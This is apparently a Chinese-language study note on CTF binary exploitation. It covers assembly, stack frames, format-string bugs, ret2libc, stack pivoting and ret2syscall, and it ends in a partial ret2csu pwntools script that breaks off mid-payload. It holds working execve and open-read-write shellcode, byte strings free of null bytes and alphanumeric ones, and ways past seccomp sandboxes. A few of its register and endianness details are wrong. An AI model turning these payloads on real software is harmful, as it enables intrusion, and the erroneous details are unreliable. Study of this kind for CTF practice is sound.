pwn

## 汇编语言：

### 1.add    sub  mov  lea  jmp  call  ret  leave  push  pop  xor

算术运算：

add a,b; ==  a=a+b;

sub a,b;== a=a-b;

数据搬运：eax,ebx都是寄存器

mov a,b;== 将右边的值赋给左边，如果右边的是一个地址，那么就是将右边地址中存储的数赋值给左边；

lea eax,[ebx+4];==就是算地址，ebx+4赋值给eax;

跳转

jmp a;==直接跳到a位置；


栈操作：esp:栈顶指针   一个寄存器，一个栈单元的大小都是4字节；

push eax==向栈中放数据

esp-4;

esx放进去之后，现在的栈顶指针就指向eax;

pop ebx==从栈中拿数据

因为现在栈顶esp指向一个数据，于是先mov ebx,esp;

​                                                        之后esp+4;


函数与栈调用：

call func;==调用这个func函数；

首先会在当前指令下的下一条指令压栈，（就是在函数调用完之后还是会回来接着调用接下来的命令，栈就是先进后出，于是函数调用完后便可以运行接下来的命令）

call func=push 下一条指令；

​                jump func;

ret 返回

pop先从栈中拿取栈底的那个原本的下一条命令，之后就是直接运行这一条命令即可

leave 

通常和ret一起执行

ebp函数栈帧基指针，就固定在那里不会移动。

leave == mov esp,ebp;//把栈顶恢复成原来的样子，清空函数局部变量空间。之后将原来的ebp还回去。


xor

异或运算相同为0，不同为1常常用来清空寄存器

xor eax,eax;==  eax=eax所以为0；


## 32位和64位寄存器

### 1.基本寄存器

进行来了从32位到64位的转变，

32位有8个寄存器




而64位寄存器就是在基本的32为又进行了拓展，扩展到了16个只不过就是将E变成了R，相关的用途基本上都是相同的，只不过又加了从R8~R15

R8和R9是用来函数传参的，因为x64位寄存器传参需要传递6个参数：rdi rsi rsp rdp r8 r9

r10和r11易失寄存器，就是函数在将数据存到寄存器中，然后再进行相应的函数运算，用完之后值不一定保留。

r12~r15是用来长期保存数据的，非易失。

### 2.调用方式

#### 32位的调用就是直接通过栈传递

function(int a,int b)

如果是这样的话，那么首先从右向左将参数入栈（建立栈帧锚点push  edp;mov edp,esp;）

call function调用函数

传入参数时是从esp-8开始传的（因为首先esp是指向栈基edp的，之在调用函数时会将下面那一条命令压入栈底，此时esp-4）

之后pop edp，将于原来的edp返回，之后ret，返回到一开始的下一条指令


#### 64位寄存器调用寄存器传参

需要使用6个参数，是固定的。

##### 函数调用

rdi rsi rdx rcx r8 r9,

##### 基本传参

rdi rsi rdx r10 r8 r9


调用时就是自动去寄存器中去找数据，进行相应的运算。

最后还是需要ret返回到一开始的下一条指令。

## 大小端序

比如一个数据：0x12345678

地址是从 0x100 0x101 0x102.....从低地址到高地址

12 就是高字节， 78就是低字节

#### 大端序

就是将高字节放进低地址

就是将12放进0x100

#### 小端序

高字节放进高地址，低字节放进低地址

就是将78放进0x100,直到将12放进0x104中


## 页分配机制

linux中内存的划分：


#### 页面分配机制是基于伙伴算法

##### 伙伴算法：

order是块的级别，order=n,对应大小为2^n;也就是说内存将会被分为2^n块大小的页，一页就是4kb。


但是如果一直的二分下去，就可能会造成内存碎片化：

1.外部碎片：非伙伴关系，就是并不是从同一块大内存划分下来的，这就会造成一堆零散小内存块，并且不能合并。

2.内部碎片：就是将一块大的内存块分配给小的内存需求，比如将8页的分给5页的，这样就会使得这一整个大的内存内部造成内部内存浪费。

将相同的2^n串成一个链表；链表的好处就是存取方便。


##### 虚拟地址物理地址

物理地址：唯一的，真实的硬件地址

虚拟地址;用户层面所能接触的，只是所划分的内存范围。

而页表存在虚拟地址和物理地址的映射关系，虚拟地址可以通过映射关系找到物理地址。


直到找到符合目标需求的内存大小，然后将会把那些是伙伴关系的串成链表。


## 栈结构


栈就是临时存放数据的内存区域：

数据后进先出 从高地址向低地址生长

### ebp esp eip/rip

ebp:栈基址，固定不动用来定位参数。

esp：栈顶，push pop 会用到

eip/rip：指令指针

### 函数的调用过程

1. 把参数压栈

2.  call 函数 

- 把下一条指令地址（返回地址）压栈

- 跳去函数

3. 函数开头： 

   push edp;

   mov edp,esp;

建立新栈帧

4. 函数运行，使用局部变量

5. 函数结尾： 

   leave;

   ret;


-  leave ：恢复 ebp、esp
-  ret ：弹出栈顶 → 给 eip，回到调用处


高地址

函数参数（外部传进来的）

call 压入的 返回地址

旧 ebp（当前 ebp 指向这里）

局部变量（开空间时往低地址长）(函数内部本来就存在的)（如果是向局部变量输入内容的话，就是从低地址向高地址输入，数组内部存放的顺序）

低地址


## ret2text


首先根据栈的函数调用结构，知道栈的各个部分之后。并且局部变量所分配的内存大小是固定的，所以一旦输入的内容大于这个内存空间，就会覆盖上面的ebp 返回地址。

局部变量在开空间的时候，是向低地址开的，可是如果是数组类型读取的话，就是从低地址向高地址存放。

所以，如果超出这个内存，就会压到上面的其他地址。

### 检测步骤

首先检查栈溢出（gets strcpy）

程序内部是否有后门参数。

所以在传递参数时需要计算gets大小和edp的大小+后门函数的地址。

### 32位和64位eip/rip地址大小

32位:4字节

64位:8字节


## 栈对齐

64位栈地址必须是16的倍数，也就是地址最后四位是0；

跳转到后门时，相当于执行一个新的函数，会需要rsp，一个程序中只有一个rsp。

rip就是当前的指令行，ret时就是将返回地址弹进rip,从而执行指令。

32位不强制要求栈对齐。

### 32 位： 填充 + 后门地址 

### 64 位： 填充 + ret 地址 + 后门地址


## 保护机制 nx,pie,canary

### 1.canary(返回值前的随机数)

作用：防止栈溢出覆盖返回值

在返回地址前面加上一个随机数，函数退出后会检查这个数有没有改变，如果改变就会直接杀死程序。

所以开这个保护，还想利用的话，就要首先泄露出这个随机数。


### 2.NX（把栈标记为不可执行）


### 3.PIE 程序的基地址每次都会发生变化

所以如果想要获得后门代码，就先需要知道当前后门地址是什么。


## 格式化字符串漏洞 %p printf(s)

输出的正确写法

char buf[100];
gets(buf);
printf("%s", buf);  // ✅ 把buf当字符串输出


漏洞：

char buf[100];
gets(buf);
printf(buf);        // ❌ 直接把buf当【格式串】

所以这个漏洞就是如果输入的内容中有%p %d %x %s等，就会将它们当做占位符，从而去栈上乱传数据。

%p    32位占4字节   64位占8字节

以“地址格式”输出栈上的一个值，带0x

%x 读取16进制，不带0x

%s  读取地址后将这个地址上的内容打印出来

%n  写入已经输入字符个数，写入到目标内存 

%hn写入已输出字符串个数两字节到目的地址

%hhn写入已输出字符串个数一字节到目的地址

### 相关函数

printf()

scanf()

puts()

22222222222222222222222222222222222222222222222222222222

首先看一下在栈上的布局


每一个栈上的布局都不同，所以，应该结合实际，我们可以通过%p来打印相关的地址，于是就可以找到我们输入的内容所在的位置，接着我们可以去找一些我们想要的地址，gdb算出到rdi的距离，这个就是到我们输出字符的距离，接着两者相加即可


## syscall（初级）

系统内核指令调用  exceve需要三个参数，第一个参数放指令地址就行，其它0即可

### 32位：

首先在函数中，32位linux系统调用是  eax ebx ecx寄存器传参 的。

而32位execve的调用号是11，所以eax=11; 接下来就可执行命令将命令地址放入ebx中

而再此还需要__asm来来告诉编译器，接下来是汇编指令

__asm{int 0x80}，触发指令

函数：从右向左传参

系统：

eax(存调用号)

ebx->ecx->edx->edi->esi


### 64位

触发指令：syscall

系统调用号寄存器：rax  59

rax->rdi->rsi->rdx->r10->r8->r9


函数调用：

rdi->rsi->rdx->rcx->r8->r9


## ret2libc：开起了nx保护，不能再执行栈里的函数

### libc:

linux中一个大的函数库

包括了一些系统调用函数，执行命令。

之前写的shellcode，可以直接放进栈中运行，但是开启之后就不能继续去运行，只能构造rop/ret2libc。

### 原理

##### 1.存在栈溢出漏洞，有gets()   puts()    strcpy()

##### 2.开启了nx/dep保护

相关的栈不可执行

##### 3.能够控制的函数参数







## 栈迁移

初识：就是相关局部变量的地址到返回函数的内存大小不够放入那些rop链，于是就去一个新的bss栈去运行那些函数，来运行那些指令

### .限制条件函数   read gets 函数的允许最大读取长度太短


### leave理解



第一次总结：

运用了两次leave ret 。每一次的leave ret 相当于，move esp ebp .此时栈顶和栈底都指向同一片区域，之后pop ebp就相当于将旧的ebp弹入到新的ebp中，之后esp就会向高地址移动，指向返回地址。此时再执行ret，就会把esp指向的返回地址压入eip中，进而执行返回命令。但是此时将原来的返回地址改成了leave ret 地址，于是还是会执行第二次leave ret ，但是第二次相当于已经迁入了另一个栈，看图中就是ebp下一个地址就是system函数的地址。之后再执行，还是将esp和ebp重合，pop ebp之后，esp就会指向system的地址，所以ret的时候，这个地址会直接弹进eip，也就是会被执行

### 第二次

[栈迁移实战：从栈溢出到ROP链的五种迁移路径（x86/x64 + BUUCTF真题解析） - 云栈社区](https://yunpan.plus/t/12894-1-1)

[栈迁移的原理&&实战运用 - ZikH26 - 博客园](https://www.cnblogs.com/ZIKH26/articles/15817337.html)

本质就是采用了两次leave_ret,

重要的就是，rbp：因为这个可以使的旧的rbp去往新的rbp，接着当rsp到达返回地址（leave_ret）rsp就会去往新的rbp,同时在ret时，pop rip这时rip就会执行当前rsp(s_addr+4)的命令，关键的还有迁移栈的构造。


## shellcode

(下午碰见了于是记录一下)

[【Pwn深入学习】手写shellcode学习笔记 - 归海言诺 - 博客园](https://www.cnblogs.com/resea/p/18881947#三再来一个32位shellcode)

[总结在 CTF-PWN 中遇到的 shellcode 利用-先知社区](https://xz.aliyun.com/news/16107)


首先介绍一下什么是shellcode:机器语言，二进制机器码。作用就是机器执行完之后就可以拿到shell命令。

### 使用条件：

1.存在栈溢出，以便将shellcode能够写进能够执行的内存。

2.NX关闭，以便内存可以执行

3.知道 shellcode 的内存地址两种常见情况：

1. 栈地址固定 / 可泄露

2. 有 jmp esp / call rsp 之类 gadget

- 32位： jmp esp 

- 64位： jmp rsp 

4. 没有强 ASLR + Canary 阻碍

- Canary 开启 → 无法覆盖返回地址

- ASLR 开启 → 栈地址随机，不好跳


在python中可以自动生成，但是需要配置架构


### 1.python自动生成shellcodecode

#### 32位：

```python
context(arch='i386',os='linux',log_level='debug')
shellcode=asm(shellcraft.sh())
```

#### 64位：

```python
context(arch='amd64',os='linux',log_level='debug')
shellcode=asm(shellcraft.sh())
```

之后就可以溢出到这个内存地址，进而去执行。但是要找好地址，传过去的时候不要找错了


### 2.写入用小端序64位

因为cpu解析的时候需要根据小端序读取机器码。

就是高字节放在高地址，小字节放在低地址。

首先就是64位的，因为system函数需要三个参数，第一个rdi就需要放/bin/sh。之后两个为空，即使用xor清空为0即可。之后就是系统调用号，需要rax存储，

mov rbx 0x68732f6e69622f

push rbx 现在rbx存的字符串就在栈顶，并且栈顶指针正在指向它。

mov rdi rsp 将栈顶也就是现在的字符串存入rdi第一个参数中

xor rsi rsi

xor rdx rdx 清空第2,3个参数

mov rax 59

syscall



### 3.32位

因为32位只有4字节所以要将指令分开写

因为是/bin/sh

因为是

0x68732f2f ---> //sh      

0x6e69622f --->/bin

```
execve` 要求字符串参数必须以 null 结尾 \0
```

所以首先需要将eax异或为0,之后再压栈，在填入字符串。

64位不需要这一步是因为，它是将字符串存入寄存器中，寄存器高字节天然就是0.

之后

xor ebx ebx 

xor ecx ecx

mov eax 0xb

int 0x80


### 4.绕过手法

#### 1.\x00

strcopy`、`strcmp`等二级字符串操作，`C语言用\x00截断字符串

而\0出现的地方：

- `/bin/sh` #/bin/sh 低位0
- `mov rax, 0x3b;` # 0x3b 高位0
- `mov eax, 0xb`# 0xb 高位0
- `int 0x80`# 0x80 高位0以及80的本体0   但是在机器码中 只有80


##### 1

##### 而面对64位的低位0我们就可以将  /bin/sh  写成  /bin//sh

即 mov rbx  0x68732f2f6e69622f 

32位的本来就是\bin\\sh没有\0


##### 2使用低八位的al

调用号：

首先介绍寄存器的结构

| 位数 | 寄存器名 | 说明                         |
| ---- | -------- | ---------------------------- |
| 64   | rax      | 整个寄存器                   |
| 32   | eax      | 低 32 位                     |
| 16   | ax       | 低 16 位                     |
| 8    | al       | 低 8 位                      |
| 8    | ah       | 高 8 位（仅限 ax 的高 8 位） |

这个时候就可以只需要

rax 寄存器：
┌────┬────┬────┬────┬────┬────┬────┬────┐
│ 00      │ 00     │ 00       │ 00     │ 00      │ 00    │ 00        │ 3B │
└────┴────┴────┴────┴────┴────┴────┴────┘
 高56位→                                                                         ←低8位=0x3B

我们写 `mov al, 0x3b` 而不写 `mov rax, 0x3b`，不是为了让高位0"消失"，而是为了：

- **避免机器码中出现 `0x00` 字节**
- **代码更短**

实际上执行效果完全一样：最终 `rax = 59`。

也就是说使用al之后就不会让高位的0写出来，机器码中就不会出现。


##### 3  push+pop

32位：push 0xb

pop eax


##### 4.nop对齐绕过

如果需要字节对齐的话，就使用nop，因为它不起什么作用，单纯填充字节

这样可以避免机器自动补0。


##### 5.使用多步低位偏移进行字符串拼接


### 5 沙箱保护

#### 检测沙箱的工具   seccomp-tools


```python
seccomp-tools dump ./pwn
```

#### 绕过方式     使用 `shellcraft` 前需要设置相关的架构

首先

open函数会先去读取文件，并且得到文件描述符，这个文件描述符我们就可以通过这个数字进而去操作文件。

因为这是一个函数，于是返回值会放到32位eax中，


```
shellcraft.read('eax', 'esp', 0x100)
```

这个相当于调用read函数，eax就是文件描述符，然后将栈顶指针作为临时缓存区，后面是大小


##### 1.禁用execve绕过

于是就使用orw，就是使用相关的函数，

open:读取当前目录下的flag文件获得文件描述符

read：将flag文件读取到内存中

write：将flag从内存中打印出来


###### 32位：

```python
shellcode = ''
shellcode += shellcraft.open('./flag')
shellcode += shellcraft.read('eax','esp',0x100)
shellcode += shellcraft.write(1,'esp',0x100)
shellcode = asm(shellcode)
```

64位

```python
shellcode = ''
shellcode += shellcraft.open('./flag')
shellcode += shellcraft.read('rax','rsp',0x100)
shellcode += shellcraft.write(1,'rsp',0x100)
shellcode = asm(shellcode)
```

##### 2.禁用open/read/write绕过

这时可以使用openat mmap senfile 

#### openat + mmap + sendfile

```
shellcode = shellcraft.openat(0,'/flag',0)
shellcode += shellcraft.mmap(0x10000,0x100,1,1,'eax',0)
shellcode += shellcraft.sendfile(1,3,0,0x100)
shellcode = asm(shellcode)
```

openat还是首先打开文件

- **第一个参数 `0`**：`AT_FDCWD`，表示"从当前工作目录开始找文件"。如果填 `-100` 也是一样的效果。
- **第二个参数 `/flag`**：要打开的文件**绝对路径**，这里是从根目录开始找。
- **第三个参数 `0`**：`O_RDONLY`，只读模式。

mmap

建立内存映射，在得到文件描述符之后，就可以通过申请内存和内存大小，只读建立映射，从文件的第0个字节开始建立读取映射。

| 参数   | 值        | 含义                           |
| :----- | :-------- | :----------------------------- |
| addr   | `0x10000` | 建议内核把内存映射到这个地址   |
| length | `0x100`   | 映射 256 字节                  |
| prot   | `1`       | `PROT_READ`，只读权限          |
| flags  | `1`       | `MAP_SHARED`，共享映射         |
| fd     | `'eax'`   | 用上一步 open 得到的文件描述符 |
| offset | `0`       | 从文件的第 0 个字节开始映射    |

sendfile就是将内存中相关内容读取到终端

| 参数   | 值      | 含义                       |
| :----- | :------ | :------------------------- |
| out_fd | `1`     | stdout，直接输出到终端     |
| in_fd  | `3`     | 我们打开的 flag 文件描述符 |
| offset | `0`     | 从文件开头开始传输         |
| count  | `0x100` | 传输 256 字节              |

##### 3.切换架构

seccomp 规则可以只检查某个架构的系统调用号，seccomp 默认可能只限制了当前运行架构的系统调用号。如果你能切换到另一个架构，而沙箱没有覆盖那个架构，限制就失效了。

首先cpu是通过cs寄存器看出来当前是按64位还是32位的。

所以切换架构的时候就需要修改cs寄存器的值，**修改 CS 的唯一方式是远跳转/远返回。`retfq` 从栈上弹出新的 CS 值，CPU 就按新的模式运行，同一段机器码在 32 位和 64 位下的含义不同，从而绕过了 seccomp 对 64 位调用号的限制。**

##### 4.严格限制输入长度

###### 利用短字节shellcode

###### 32位

`getshell` - 21字节

```
# (execve("/bin/sh",NULL,NULL))
shellcode = asm("""
    push 0x68732f
    push 0x6e69622f
    mov ebx,esp
    xor ecx,ecx
    xor edx,edx
    push 11
    pop eax
    int 0x80
""")
```

`orw` - 56字节

```
shellcode = asm("""
    /*open(./flag)*/
    push 0x1010101
    xor dword ptr [esp], 0x1016660
    push 0x6c662f2e
    mov eax,0x5
    mov ebx,esp
    xor ecx,ecx
    int 0x80
    /*read(fd,buf,0x100)*/
    mov ebx,eax
    mov ecx,esp
    mov edx,0x30
    mov eax,0x3
    int 0x80
    /*write(1,buf,0x100)*/
    mov ebx,0x1
    mov eax,0x4
    int 0x80
""")
```

无 `\x00` 截断 `getshell` - 21字节

```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

`scanf` 可读取 `getshell` - 41字节

```
\xeb\x1b\x5e\x89\xf3\x89\xf7\x83\xc7\x07\x29\xc0\xaa\x89\xf9\x89\xf0\xab\x89\xfa\x29\xc0\xab\xb0\x08\x04\x03\xcd\x80\xe8\xe0\xff\xff\xff/bin/sh
```

###### 64位

`getshell` - 22字节

```
shellcode = asm("""
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi,esi
    xor edx,edx
    push 0x3b
    pop rax
    syscall
""")
```

`orw` - 43字节

```
shellcode = asm("""
    push 0x67616c66
    mov rdi,rsp
    xor esi,esi
    push 2
    pop rax
    syscall
    mov rdi,rax
    mov rsi,rsp
    mov edx,0x100
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
""")
```

无 `\x00` 截断且 `scanf` 可读 - 22字节

```
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05
```

##### 5.限制输入内容

###### 仅数字字母

[alpha3](https://github.com/TaQini/alpha3) 项目可以实现输出可见 shellcode，安装和使用方法如下

```
$ git clone <https://github.com/TaQini/alpha3.git>
$ python sc.py > shellcode
$ cd alpha3
$ ./shellcode_x64.sh rax
```

使用脚本生成

```
from pwn import *
import os

context(arch='amd64', os='linux')
context.log_level = 'debug'

fp = open("shellcode", "wb+")
fp.write(asm(shellcraft.sh()))
fp.close()

shellcode = os.popen("python ./alpha3/ALPHA3.py x64 ascii mixedcase rax --input=shellcode").read()

print shellcode
```

**注意：alpha3 生成 shellcode 时如果设置 rax 那么跳转至 shellcode 时 rax 必须为 shellcode 的地址。设置为其他寄存器同理**

- 32 位（70字节，eax）

  ```
  hffffk4diFkTpj02Tpk0T0AuEE2O092w390k0Z0X7L0J0X137O080Y065N4o114C3m3H01
  ```

- 64 位（105字节，rax）

  ```
  Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M15103S0g0x4L1L0R2n1n0W7K7o0Y7K0d2m4B0U380a050W
  ```

- 64 位（271字节，rdi）

  ```
  Wh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M7M1o1M170Y172y0h16110j100o0Z0J131k1217100Z110Y0i0Z0Y09110k0x2I100i0i020W130e0F0x0x0V0c0Z0u0A2n101k0t2K0h0i0t180y0D132F110M130y120c102n102q141N117K110a122k112H102O17031709102Z172q102q122L162L110e120S102u121N107o00
  ```

- 32 位

  ```
  PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA
  ```

- 64 位

  ```
  Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B
  ```

##### 禁用\x0f\x05

因为在进行shellcode的时候最后会有一个syscall是整个shellcode的核心，只有这最后一条才会触发系统调用。

因为shellcode在asm里面会转化成机器码，也就是

64位：

```python
mov rax, 59
mov rdi, "/bin/sh"
xor rsi, rsi
xor rdx, rdx
syscall           ← 这行的机器码就是 \x0f\x05
```

所以如果这个\x0f和\x05被限制了的话，那么就可以通过异或运算将这个值算出来，

就是可以首先在某个地方写入一个数据，比如0x66666666 ,

这个地址的要求：

| 条件                | 为什么                            |
| :------------------ | :-------------------------------- |
| **有执行权限（X）** | CPU 要执行这里的代码              |
| **有写权限（W）**   | 你要能 XOR 修改它（或者提前写入） |
| **地址已知**        | 你要能在代码里引用它              |

之后就可以用0x66666963来和上面的数据进行异或，这样那个位置的数值就会是0x0F05

例如;

 

```python
第1步：把 0x66666666 写到 [rax+0x20] 位置
; 比如通过输入字符串 "ffffffff" 正好落在这个位置
; 或者在 shellcode 里先 push 再 pop

push 0x66666666        ; 把这个值压栈
pop qword [rax+0x20]   ; 存到目标位置

; 第2步：再用 0x66666963 异或它
mov rsi, 0x66666963
xor [rax+0x20], rsi    ; 0x66666666 XOR 0x66666963 = 0x0F05
```

##### 6.限制权限

###### 限制shellcode段没有读写权限+mprotect

```c
int mprotect(void *addr, size_t len, int prot);
```

各个参数说明：

```python
mprotect(
    addr,   // 要改权限的内存起始地址（必须页对齐，即 0x1000 的整数倍）
    len,    // 长度（会自动向上取整到页边界）
    prot    // 新权限
);
```

prot权限说明：

```python
#define PROT_NONE  0x0   // 无权限
#define PROT_READ  0x1   // 可读
#define PROT_WRITE 0x2   // 可写
#define PROT_EXEC  0x4   // 可执行
```

**用的时候把它们加起来：**

| 你想要   | 计算    | prot 值 |
| :------- | :------ | :------ |
| 只读     | `1`     | `1`     |
| 读写     | `1+2`   | `3`     |
| 读执行   | `1+4`   | `5`     |
| 读写执行 | `1+2+4` | `7`     |

系统调用号：10

## ret2syscall


| 参数顺序  | 64位寄存器 | 32位寄存器 |
| :-------- | :--------- | :--------- |
| 第1个参数 | `rdi`      | `ebx`      |
| 第2个参数 | `rsi`      | `ecx`      |
| 第3个参数 | `rdx`      | `edx`      |
| 第4个参数 | `r10`      | `esi`      |
| 第5个参数 | `r8`       | `edi`      |
| 第6个参数 | `r9`       | `ebp`      |


这个就是适用于nx打开，于是就只能通过拼接gadget进而执行相关的系统调用。

### 判断

如果没有system和开启了NX（栈不可执行）保护可以用（有system最好用ret2text，方便省事，没开NX直接ret2shellcode）

### 主要过程

1. 把系统调用的编号存入 **EAX**；
2. 把函数参数存入其它通用寄存器；
3. 触发 0x80 号中断（**int 0x80**）。

#### 32位（简述）

首先查找相关的寄存器，因为32位是eax ebx ecx edx 而函数调用号需要放在eax中，并把需要的系统调用号给eax（通常使用**execve**，即0x0b），把其余寄存器清空（给一个0进去即可）再将/bin/sh（或者sh也可）的地址和int 0x80的地址作为参数传进去即可


##### 寻找相关的gadget指令

使用Ropgadget工具进行寻找

```python
ROPgadget --binary ./pwn --only "pop|ret" | grep "pop eax"
```

```python
ROPgadget --binary ./pwn --only "pop|ret" | grep "pop edx.*pop ecx.*pop ebx.*ret"
```

```python
ROPgadget --binary ./pwn --only "int"

ROPgadget --binary ./pwn --only "int|ret" | grep "int 0x80"
```

```python
objdump -d ./pwn | grep -A1 "int.*0x80"
```

```python
ROPgadget --binary ./pwn | grep ": ret$"
```


```python
ROPgadget --binary ./pwn | grep -E "pop ebx|pop ecx|pop edx|pop eax|int 0x80"
```

```python
ROPgadget --binary ./pwn --string "/bin/sh"
```


### 64（简述）

它的传参则是需要，rax存放调用号（0x3b），之后函数的参数则是放在rdi rsi rdx rcx r8 r9这个顺序之中的，所以还是需要使用Ropgadget 去查找相关的寄存器。

而首先还是将系统调用号存入rax中，之后再将各个参依次存入rdi rsi rdx中

首先那就是寻找相关的指令。


## ret2csu

```python
from pwn import *
from LibcSearcher import *
context(log_level='debug')

p = process("./x64_ret2csu")
# p = remote("192.168.6.102",21986)
e = ELF("./x64_ret2csu")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

p.recvuntil(b"Welcome to x64_ret2csu\n")

gadget1 = 0x40071a
gadget2 = 0x400700
write_got = e.got['write']
# print(write_got)
main = 0x40065B

padding = 0x80 + 0x8
payload = b"A" * padding
payload += p64(gadget1)
payload += p64(0)		# rbx
payload += p64(1)		# rbp
payload += p64(write_got)
payload += p64(8)			# rdx
payload += p64(write_got)	# rsi
payload += p64(1)			# rdi
payload += p64(gadget2)
